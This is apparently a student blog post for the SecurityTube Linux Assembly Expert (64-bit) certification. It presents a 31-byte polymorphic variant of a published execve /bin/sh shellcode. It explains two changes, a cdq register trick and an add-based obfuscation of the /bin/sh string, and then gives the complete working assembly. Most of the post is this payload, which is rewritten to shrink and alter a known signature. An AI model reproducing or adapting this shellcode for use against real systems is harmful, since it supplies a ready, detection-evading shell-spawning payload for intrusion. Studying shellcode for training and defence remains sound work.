 # Polymorphic version of a 33 byte execve shellcode

Original version:
```
http://shell-storm.org/shellcode/files/shellcode-76.php
```

This post describes a polymorphic version of a 33 byte execve shellcode.
My polymorphic version is 31 bytes in size and thus 2 bytes shorter then its original version.

## Changes

1. I used ```cdq``` in order to zero out rdx.
2. The original version uses ```shr``` to obfuscate the /bin/sh string. I changed this obfuscation by moving hex(/bin/sh) - 0x13377331 in rbx and then adding 0x13377331 again to deobfuscate at runtime.

## Asm
```
; Polymorphic shellcode version of http://shell-storm.org/shellcode/files/shellcode-76.php
; Original size: 33 bytes
; Polymorphic size: 31 bytes


global _start
section .text
_start:

    xor rax, rax ; clear out rax
    cdq          ; clear out rdx
    push rax
    pop rsi

    mov rbx, 0x68732f2f5b31eefe ; Some string obfuscation
    add rbx, 0x13377331

    push rax
    push rbx

    push rsp
    pop rdi ; rdi points to /bin/sh

    mov al, 0x3b
    syscall


```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
